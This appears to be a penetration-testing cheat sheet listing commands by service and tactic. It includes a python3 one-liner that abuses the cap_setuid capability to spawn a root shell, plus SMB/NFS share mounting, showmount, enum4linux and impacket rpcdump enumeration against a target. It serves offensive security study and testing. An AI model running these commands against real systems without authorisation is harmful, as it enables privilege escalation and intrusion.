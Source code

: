 ```
# Check the links at the bottom for more examples and explanation
```
## exploit `cap_setuid` capability on python3 to gain a local root-shell
- `python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

---

# mount
- service: smb
- tactics: enumeration
- tactics: inital_access

## mount shares
- `mount -o hard,nolock target-ip:/home folder`
- `mount -t cifs -o user=username,domain=domainname //target-ip/share /mnt/folder`
- `mount -t nfs target-ip:share /mnt/folder -o nolock`
---

# showmount
- service: smb
- tactics: enumeration

## list Shares
- `showmount -e target-ip`

---

# enum4linux
- service: all
- tactics: enumeration

## scan target-ip
- `enum4linux target-ip`

---

# rpcdump.py
- service: rpc
- tactics: enumeration
- suites: impacket

## dump rpc endpoints
- `/opt/impacket/examples/rpcdump.py username:password@target-ip`

---